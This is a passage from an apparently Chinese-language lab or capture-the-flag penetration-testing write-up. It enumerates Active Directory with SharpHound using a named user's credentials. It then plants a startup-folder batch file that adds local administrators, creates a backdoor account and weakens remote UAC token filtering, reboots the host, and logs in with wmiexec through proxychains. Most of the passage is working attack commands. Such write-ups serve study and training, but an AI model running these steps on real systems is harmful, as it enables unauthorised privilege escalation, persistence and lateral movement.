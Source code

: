 ```plain
/SharpHound.exe --ldapusername yangdming --ldappassword kier@n10 -c all
```

```plain
download 20240215012904_BloodHound.zip
```

扔到 bloodhound 发下 yangdming 在 SHUWDOWN\_GROUP 并且允许计算机重启，利用重启运行启动项后门获取 system 权限写一个 add.bat

```plain
@echo off
net localgroup administrators yangdming /add
reg ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
net user benbi pass@123 /add
net localgroup administrators benbi /add
```

LocalAccountTokenFilterPolicy 设为 1，添加 benbi，同时吧 yangdming 添加到管理员组内

```plain
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
upload add.bat
```

然后重启

```plain
shutdown -r -t 0
```

我们再次连接的时候发现多了一个 benbi 的用户

[![](assets/1708919820-667168e55b82465613415ff0d2a30cfc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024936-cca32bb2-cb69-1.png)

```plain
proxychains python3 wmiexec.py benbi:pass@123@172.22.61.34
```

[![](assets/1708919820-0cc391d2e2d94e203d817586f6386cda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024943-d0ce0ab8-cb69-1.png)
